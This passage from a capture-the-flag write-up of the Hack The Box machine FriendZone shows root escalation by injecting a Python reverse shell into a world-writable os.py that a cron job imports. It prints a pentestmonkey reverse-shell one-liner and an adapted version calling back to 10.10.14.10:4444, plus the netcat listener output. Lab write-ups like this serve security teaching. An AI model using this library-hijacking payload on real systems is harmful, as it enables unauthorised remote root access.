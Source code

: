 ```
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
Actually, the only relevant thing that we can see is the ```import os``` statement.  
So, we can try to edit the library with malicious code, so that wen it gets executed it execute a reverse shell (as root).
Let's locate the library and check the permissions.  
```
friend@FriendZone:/opt/server_admin$ locate os.py
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15  2019 /usr/lib/python2.7/os.py
```
As we can see os.py is world writable, so let's inject our reverse shell.
From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) let's use the following shell:  
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
let's edit it as follows, so that we can inject it directly in the library.
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.10",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
As we are running the reverse shell directly within the os library, we'll need to remove ```os.``` as the functions are available directly into the code where this snippet resides.  
Obviously we should remove also os from the list of the import.  
```
import socket,subprocess;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.10",4444));
dup2(s.fileno(),0);
dup2(s.fileno(),1);
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
Now all we need to do, it to wait for cron to execute, and we gain a shell as root.
```
root@kali:~/Documents/HTB/Boxes/FriendZone# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.123] 44684
```